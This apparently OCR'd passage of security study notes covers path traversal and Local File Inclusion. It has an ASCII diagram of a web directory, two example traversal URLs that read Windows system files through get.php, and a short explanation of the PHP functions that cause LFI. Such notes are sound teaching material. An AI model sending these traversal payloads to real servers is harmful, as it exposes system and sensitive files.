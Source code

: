 ```
    │                                                                               │             │    │       │                       │
    │                                                                               │             │    └───┬───┘                       │
    │                                                                               │             │ ..     │                           │
    │                                                                               │             │  ┌─────┴─────┐                     │
    │                                                                               │             │  │           │                     │
    │                                                                               │            +++++++++   ┌───┴───┐                 │
    │                                                                               │            +       +   │       │                 │
    │                                                                               └───────────►+get.php+   │ files │                 │
    │                                                                                            +       +   │       │                 │
    │                                                                                            +++++++++   └───┬───┘                 │
    │                                                                                                            │                     │
    │                                                                                                            │                     │
    │                                                                                                            │                     │
    │                                                                                                        +++++++++                 │
    │                                                                                                        +       +                 │
    │                                                                                                        +xyz.pdf+                 │
    │                                                                                                        +       +                 │
    │                                                                                                        +++++++++                 │
    └──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────┘
```

similar on windows server:
```
http://URL/get.php?file=../../../../boot.ini
```

```
http://URL/get.php?file=../../../../windows/win.ini
```



# Local File Inclusion LFI
- LFI attacks against web applications are often due to a developers' lack of security awareness. With PHP, using functions such as `include`, `require`, `include_once`, and `require_once` often contribute to vulnerable web 
- other languages such as ASP, JSP, Python, or even in Node.js apps
- LFI exploits follow the same concepts as [Directory / Path Traversal](File%20Inclusion.md#Directory%20/%20Path%20Traversal)
